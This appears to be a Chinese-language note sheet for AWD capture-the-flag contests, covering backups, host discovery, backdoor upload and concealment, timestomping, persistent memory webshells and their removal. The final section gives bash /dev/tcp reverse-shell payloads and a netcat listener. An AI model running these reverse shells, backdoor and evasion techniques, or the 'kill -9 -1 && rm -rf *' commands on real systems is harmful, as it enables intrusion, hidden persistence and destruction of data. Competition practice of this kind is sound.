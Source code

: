 # AWD

## 环境

### 靶机环境

如果没有安装`python`，可以尝试安装到有权限写入的目录：
```sh
./configure --prefix=/home/ctf/python32  
make  
make install
```

## 命令
通常用于自动化脚本编写。

### `scp`
基于`ssh`

```sh
# 将本地文件上传到 远程ssh server 端口为12345的目录上 
scp -P 12345 /home/1.zip root@127.0.0.1:/home
```

## 防御

### 源码备份

```sh
# zip
zip -r xxx.zip ./*
unzip xxx.zip -d

# tar
tar -cvpf /home/ctf/backup.tar -C /var/www/html . # -p 保持文件权限一致; -C 设置目标路径，不设置如果用绝对路径则包含父目录路径加入压缩包（注意，后面不能跟./*，而只能直接是.，否则会产生莫名其妙的错误）
tar --same-owner -xvpf xxx.tar -C /home/ctf/xxx

# same-owner 是super user默认的配置，普通用户似乎时常不管用
```

备份到本地、以及源站上`/home/xxx`目录一份，不建议备份到`/tmp`，因为攻击者通过`/var/www/`攻击的访问权限是在`/tmp`以及`/tmp/www/html`目录下

### 信息收集

```sh
id # 获取用户所在组。根据权限的不同，进行网站恢复、不死马的查杀。
ls -l /var/www/html # 获取权限 所属者 所属组
# 权限格式：所有者权限 组权限 其他用户权限
```

#### 主机发现

`AWD`主机发现
- 线下
  - 大家处于一个网段，根据`ip`划分
  - `nmap`
- 线上
  - 根据端口划分(`web`\`ssh`)，可能有其他比赛
  - `scan.py`

区分选手和裁判：
- `check`
- `down`
- `waf`

```python
import requests

ip = 'http://61.147.171.104:'

for i in range(51200,51230):
    url = ip + str(i)
    try:
        req = requests.get(url, timeout=1).text
        if '网络探测demo' in req:
            print(url + '    success')
        else:
            print(url + '    fail')
    except:
        print(url + '    error')
```

#### 目录发现

```sh
# 2是标准错误输出，输出到一个不存在的路径，可以随便填，优雅点就填下面的 `/dev/null` is a special device file where any data received by the file is discarded. The null device is often known as a **black hole** as all the data that goes into it is lost forever.
find / -name 'xxx.php' 2> /dev/null  # 注意2>必须写在一起
```

### 主机恢复

```sh
# 以www-data用户执行 （比如使用蚁剑，或自建相关木马脚本然后通过网站执行）
kill -9 -1  # 终止你拥有的全部进程
rm -rf *
# 恢复
```

## 攻击

### 上传

利用内置后门
```php
file_put_contents('xx', base64_decode(base64_encode('TrojansContent')))
```

### 防利用

#### 后门加密码

- 写死密码
- 动态密码
- `MD5`
- `RSA`密码

#### 流量混淆

难以让别人通过流量监控知道如何攻击

### 防检测防删除

#### 混淆
- 文件名混淆、或假名

#### 困难删除
- 命名：使用`     .php`或`-- -.php`等不太好手动删除的文件（但可以直接通过`FTP`工具删除）

#### 时间变化
有三种时间：
- `atime` (access time)
- `ctime` (change time) 
- `mtime` (modified time)

```sh
stat <file> # 可以查看文件状态信息，包括三种时间。
touch -r <oldFile> <newFile> # 可以将`oldFile`和`newFile`时间戳同步，但changeTime似乎会修改失败。
```

#### 不死马
首先需要`www-data`用户对目录有写权限去上传文件。
免杀

##### 内存马
自身执行一次后，把自己删除，自身已经驻留在内存之中，可以不断执行一些复活等操作，来进行权限维持。

**防御方法**
- 使用内存马的相同的用户（不然可能没有权限），运行`kill -9 -1 && rm -rf *`

当然如果有权限可以采用下面的命令：

```sh
ps aux | grep www-data | awk '{print $2}' | xargs kill -9
#The "ps aux" command lists all running processes on the system. 
#The "|" (pipe) symbol sends the output of the "ps aux" command to the "grep www-data" command, which searches for any processes that have "www-data" in their name. 
#The output of the "grep" command is then sent to the "awk '{print $2}'" command, which extracts the second column (the process ID) from the output. 
```

- 使用条件竞争，写相同的复活脚本，同名文件，对内容进行篡改，然后复活时间小于等于内存马，可以使其失效。

### 反弹Shell
正向连接是指由客户端向服务端发起连接请求，而反向连接则是相反。在反弹`shell` (reverse shell) 中，由客户端监听指定的 `TCP`/`UDP` 端口，由服务端发起连接请求到该端口，建立起`shell`连接。与常见的 `Telnet`、`ssh`等`shell`相比，不同的是由服务端主动发起。

#### 适用情况
- 由于防火墙等的控制访问策略，客户端无法访问服务端，但服务端可以向外网发起请求
- `IP`会动态变化，攻击机无法直接连接
- 向局域网中的主机散播木马病毒等，网络环境未知的情况下
- 服务端的`AV`对正向连接的流量检测非常严格，但是对出网流量校验不足

#### 过程

> 不同的操作系统可能不太一样
> 在不同的反弹`shell`方式中，都需要攻击者（客户端）进行监听，下文将不再赘述，仅讲述不同的反弹方式
> 需要目标机触发`payload`造成反弹`shell`

```sh
# 客户端监听端口
nc -lvvp 9999
# -l           listen mode, for inbound connects
# -v           verbose [use twice to be more verbose]
# -n           numeric-only IP addresses, no DNS
# -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])
# Netcat 是 Linux 系统下常用的网络工具，当然也有Windows版本，在 Linux 下使用命令 `nc`，前面的端口监听就是使用 Netcat

# payload1 
bash -i >& /dev/tcp/<ip>/<port> 0>&1 
# payload2 
bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1"

#`/dev/tcp/IP/PORT` 特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 `bash` 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。
#`>&` 将联合符号前面的内容与后面相结合，然后一起重定向给后者。
#`0>&1` 将标准输入standard input (0)与标准输出standard output (1)的内容相结合，然后重定向给前面标准输出的内容。
# -i interactive。即产生一个交互式的shell（bash）。
```

[Linux 反弹shell（二）反弹shell的本质 - 先知社区](https://xz.aliyun.com/t/2549)

其实原理就是这张图：
![](../../attachments/Pasted%20image%2020230907170754.png)
